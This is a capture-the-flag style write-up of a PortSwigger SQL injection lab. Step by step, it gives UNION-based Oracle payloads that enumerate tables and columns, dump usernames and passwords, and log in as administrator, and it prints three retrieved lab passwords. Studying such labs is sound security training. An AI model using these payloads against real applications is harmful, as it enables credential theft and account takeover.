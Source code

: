 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234487924-92fe230b-d01c-4d88-8f40-ece849a2d2e2.png)

## Solution :

Request captred and send to repeater

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c4871936-3247-419c-a66a-054f99fee48b)


#### Determine number of columns -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' 'UNION SELECT NULL,NULL FROM DUAL--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/71bfc96c-fd7c-4289-8d1b-83bc894afff2)

NO error which means there are 2 columns.

#### Determine column with text data


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'' UNION SELECT 'a','b' FROM DUAL--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2946b30d-3a32-4492-b3b9-c197077f435b)


Both columns have text data

#### List all tables -

We  can list all the tables by querying `SELECT * FROM all_tables`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM all_tables--
```

We get a list of all the tables

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d78a830a-4d91-41b0-aee6-3aa3063ebe9e)


i think the table we are looking for is `USERS_BJMNXT` it look like a costom made table.


#### List all columns -

We can list all the columns by querying `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_BJMNXT'--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c9eb7d3e-4da0-4464-8ea6-96e411600623)

The names of the columns containing usernames and passwords are.

`USERNAME_XPYOVL` And  `PASSWORD_BHTLLM`

#### Retreive admin's password


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT USERNAME_XPYOVL,PASSWORD_BHTLLM FROM USERS_BJMNXT--

```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ce08b3bf-561b-4142-9ea3-c87fb5370aa0)

the passord retreived 

administrator - `xvt5w8ifjjdhwq89qmg9`
carlos        - `24q1jgfxrc6da8hvj4m8`
wiener        - `ecqsa1h4bmtkrhj79p45`

Now try to login as administrator

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ae6ec4ee-0cd2-46de-b192-b974f2ed30bb)

loged in succesful.
